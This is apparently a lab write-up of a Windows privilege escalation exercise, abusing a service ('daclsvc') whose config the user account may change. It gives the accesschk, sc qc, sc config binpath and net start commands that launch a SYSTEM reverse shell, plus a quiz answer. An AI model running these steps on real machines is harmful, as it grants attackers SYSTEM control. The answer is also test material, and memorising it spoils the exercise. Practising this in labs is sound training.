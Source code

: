 Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

![[Pasted image 20240527221813.png]]

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

```
sc qc daclsvc
```

![[Pasted image 20240527222106.png]]

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

![[Pasted image 20240527222316.png]]

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start daclsvc
```

![[Pasted image 20240527222418.png]]

Answer the questions below

| Question                                                      | Answer                                        |
| ------------------------------------------------------------- | --------------------------------------------- |
| What is the original BINARY_PATH_NAME of the daclsvc service? | C:\Program Files\DACL Service\daclservice.exe |
